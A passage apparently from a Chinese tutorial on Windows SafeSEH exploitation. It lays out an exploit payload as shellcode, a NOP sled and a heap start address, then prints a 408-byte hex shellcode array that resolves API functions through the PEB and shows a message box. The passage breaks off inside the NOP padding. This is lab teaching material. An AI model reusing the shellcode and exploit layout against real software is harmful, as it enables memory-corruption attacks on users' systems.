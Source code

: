 | shellcode | 填充指令 (\\x90) | 堆中 payload 的起始地址 |
| --- | --- | --- |
|     |

payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SafeSEH\Debug\111.txt
// Address : 0 (0x0)
// Size    : 408 (0x198)
//------------------------------------------------------------
unsigned char hexData[408] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
```
